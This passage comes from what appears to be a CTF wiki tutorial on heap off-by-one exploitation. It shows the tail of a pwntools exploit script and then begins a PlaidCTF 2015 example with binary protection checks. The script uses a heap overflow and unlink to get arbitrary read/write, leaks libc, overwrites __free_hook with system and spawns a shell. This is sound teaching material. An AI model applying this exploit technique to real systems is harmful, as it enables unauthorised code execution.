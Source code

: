 ```
    create(0x20, 'name', 0x100 - 0x10, 'target') # 5
    create(0x20, '/bin/sh\x00', 0x200, 'to arbitrary read write') # 6

    edit(4, payload) # overflow
    remove(5) # unlink

    edit(4, p64(0x30) + p64(4) + p64(heap_base + 0x11a0) + p64(heap_base + 0x10c0) + '\n')

    def write_to(addr, content, size):
        edit(4, p64(addr) + p64(size + 0x100) + '\n')
        edit(6, content + '\n')

    def read_at(addr):
        edit(4, p64(addr) + '\n')
        cmd(4)
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        p.recvuntil('Description: ')
        content = p.recvline()[:-1]
        p.info(content)
        return content

    libc_leak = u64(read_at(heap_base + 0x11e0).ljust(8, '\x00')) - 0x3c4b78
    p.info('libc leak @ 0x%x' % libc_leak)

    write_to(libc_leak + libc.symbols['__free_hook'], p64(libc_leak + libc.symbols['system']), 0x10)
    remove(6)

    p.interactive()

if __name__ == '__main__':
    main()
```

## 实例 2 : plaidctf 2015 plaiddb

```shell
➜  2015_plaidctf_datastore git:(master) file datastore
datastore: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=1a031710225e93b0b5985477c73653846c352add, stripped
➜  2015_plaidctf_datastore git:(master) checksec datastore
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/off_by_one/2015_plaidctf_datastore/datastore'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
➜  2015_plaidctf_datastore git:(master)
```
